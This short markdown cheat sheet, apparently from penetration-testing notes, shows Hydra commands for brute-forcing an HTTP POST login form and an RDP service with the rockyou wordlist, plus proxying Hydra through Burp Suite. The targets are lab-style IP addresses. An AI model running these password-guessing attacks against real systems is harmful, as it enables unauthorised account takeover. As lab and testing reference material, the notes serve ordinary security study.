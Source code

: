 ```yaml
---
title: Hydra
description: How to use hydra to bruteforce HTTP form, rdp, ...
---
```


# Hydra

## HTTP Forms

Debug with `Burpsuite` :

```bash
$ HYDRA_PROXY_HTTP=http://127.0.0.1:8080 hydra ...
```

### POST form

```bash
$ hydra -l admin -P /opt/rockyou.txt '10.10.103.103' http-post-form \
	-m '/login:username=^USER^&password=^PASS^&submit=Log+in:Login failed'
```

## RDP

```bash
$ hydra -t 1 -v -f -l 'administrator' -P /opt/rockyou.txt rdp://10.10.103.103
```